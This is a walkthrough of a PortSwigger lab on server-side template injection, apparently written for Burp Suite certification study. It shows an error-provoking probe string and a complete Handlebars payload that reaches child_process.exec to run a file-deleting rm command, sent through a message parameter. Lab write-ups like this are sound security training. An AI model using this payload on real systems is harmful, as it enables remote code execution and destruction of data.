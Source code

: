 ```yaml
---
author: Nithissh S
pubDatetime: 2024-12-03T15:22:00Z
modDatetime: 2024-12-03T09:12:47.400Z
title: Server-side template injection in an unknown language with a documented exploit
slug: ssti-portswigger-lab-4
featured: false
draft: false
tags:
  - BSCP
  - SSTI
description:
  This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. 
---
```


## Objective

This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. 

## Solution 

First things first is to identify the template engine and for that, whenever I click on the product it says `Out of stock` through a `message` parameter 

Now let's just pass the following expressions `${{<%[%'"}}%\.` through `message` which will actually crash and show us the error response.. 

Go through it, it shows it utilises `handlebars` as a template engine 

![](../../assets/images/bscp/ssti/ssti-13.png)

In order to exploit the handlebars, we have public exploit through hacktricks but slightly change the execution from `whoami` to `rm /home/carlos/morale.txt` 

```js
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Now we can just urlencode the above payload through burp decoder and send it as value for `message` parameter.. Payload executes and delete the file called `morale.txt` inside `/home/carlos` as mentioned in the lab objective and that solves the lab 

![](../../assets/images/bscp/ssti/ssti-14.png)